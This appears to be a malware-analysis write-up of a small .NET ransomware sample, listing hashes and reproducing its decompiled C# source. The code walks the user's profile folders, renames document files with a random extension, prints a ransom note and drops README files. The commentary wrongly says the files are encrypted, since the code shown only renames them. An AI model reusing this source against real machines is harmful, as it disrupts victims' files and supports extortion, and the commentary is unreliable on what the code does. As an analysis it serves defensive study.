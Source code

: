 # Diop Trojan (Ransomware)

* [Version at ANY.RUN](https://app.any.run/tasks/bdcfa230-f293-4b69-99f0-115d0d67a82b/)
* [VT Link](https://www.virustotal.com/gui/file/424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d)
* Source code : [source](/_posts/Malware%20Analyze/diop-trojan/ransom1/Ransomware/CustomRansomware.cs)

## File Information

- MD5: 06e63f2f7f64cbc08ac883f4f9122aa7
- SHA-1: 5dc8db5189d1b33b1e28dc642c238f45b6deec1a
- SHA-256: 424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d
- File type: Win32 EXE
- Magic label: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
- File size: 7.2 kB (7168 bytes)

## File Encryption Program and Custom README File Creation

```csharp
private static void Main(string[] args)
{
    string str = "C:\\Users\\";
    string userName = Environment.UserName;
    string[] array = new string[]
    {
        str + userName + "\\Desktop",
        str + userName + "\\Links",
        str + userName + "\\Contacts",
        str + userName + "\\Desktop",
        str + userName + "\\Documents",
        str + userName + "\\Downloads",
        str + userName + "\\Pictures",
        str + userName + "\\Music",
        str + userName + "\\OneDrive",
        str + userName + "\\Saved Games",
        str + userName + "\\Favorites",
        str + userName + "\\Searches",
        str + userName + "\\Videos"
    };
    string[] fileExtensions = new string[]
    {
        ".txt",
        ".docx",
        ".pdf"
    };
    foreach (string directory in array)
    {
        CustomRansomware.EncryptFilesInDirectory(directory, fileExtensions);
        CustomRansomware.CreateReadmeFiles(directory);
    }
    Console.WriteLine("Files encrypted successfully!");
}

```

This code iterates through various directories within the user's profile, including Desktop, Links, Contacts, Documents, Downloads, Pictures, Music, OneDrive, Saved Games, Favorites, Searches, and Videos. It encrypts files with extensions such as .txt, .docx, and .pdf using a custom ransomware approach. Additionally, it creates custom README files in each directory. Upon completion, the program displays a message confirming successful encryption.

## File Encryption in Directory

```csharp
private static void EncryptFilesInDirectory(string directory, string[] fileExtensions)
{
    string[] files = Directory.GetFiles(directory, "*.*", SearchOption.AllDirectories);
    string[] array = files;
    for (int i = 0; i < array.Length; i++)
    {
        string file = array[i];
        bool flag = Array.Exists<string>(fileExtensions, (string ext) => ext.Equals(Path.GetExtension(file), StringComparison.InvariantCultureIgnoreCase));
        if (flag)
        {
            CustomRansomware.EncryptFile(file);
        }
    }
}

```

The code defines a method named `EncryptFilesInDirectory`, which takes a directory and an array of file extensions as parameters. Utilizing the `Directory` class, it retrieves a list of files within the specified directory, including all subdirectories. For each file, it checks if its extension matches any of the extensions specified in the array. If so, it invokes the `EncryptFile` method from the `CustomRansomware` class to encrypt the file.

## File Encryption Process

```csharp
private static void EncryptFile(string filePath)
{
    using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider(3072))
    {
        string path = Path.ChangeExtension(Path.GetRandomFileName(), "e4aibjtrguqlyaow");
        File.Move(filePath, Path.Combine(Path.GetDirectoryName(filePath), path));
        byte[] inArray = rsacryptoServiceProvider.ExportCspBlob(false);
        string str = Convert.ToBase64String(inArray);
        Console.WriteLine("File encrypted: " + filePath);
        Console.WriteLine("Ransomware note: Your files have been encrypted. Contact us to get the decryption key.");
        Console.WriteLine("Public key: " + str);
    }
}
```

This method, `EncryptFile`, facilitates the encryption process for a specified file. It utilizes the `RSACryptoServiceProvider` class to generate a public/private key pair with a key size of 3072 bits. The file is then moved to a new location with a random filename and a custom extension. It prints a message indicating that the file has been encrypted along with a ransomware note prompting the user to contact for decryption key retrieval. Additionally, it displays the public key generated for encryption purposes.

## README File Creation

```csharp
private static void CreateReadmeFiles(string directory)
{
    for (int i = 1; i <= 10; i++)
    {
        string text = Path.Combine(directory, string.Format("README{0}.txt", i));
        File.WriteAllText(text, "КУКУ");
        Console.WriteLine("Created README file: " + text);
    }
}
```

The `CreateReadmeFiles` method generates README files within a specified directory. It iterates from 1 to 10, creating a new README file with the format "README{number}.txt". Each file contains the text "КУКУ". Upon successful creation, it prints a message indicating the creation of each README file along with its path.